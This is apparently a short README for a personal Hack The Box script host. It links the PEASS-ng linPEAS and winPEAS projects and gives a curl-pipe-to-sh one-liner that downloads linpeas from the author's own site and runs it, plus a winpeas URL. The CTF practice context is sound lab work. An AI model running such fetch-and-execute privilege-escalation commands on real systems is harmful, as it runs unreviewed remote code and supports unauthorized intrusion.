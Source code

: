 # HTB-SCRIPTS
My personal HTB CDN

Linpeas: 

  https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md

  OR

```bash
curl -L https://coderlordofsecrets.github.io/HTB-SCRIPTS/peas/linpeas | sh
```

Winpeas:

  https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md

  OR

  ```bash
$url = "https://coderlordofsecrets.github.io/HTB-SCRIPTS/peas/winpeas"
  ```
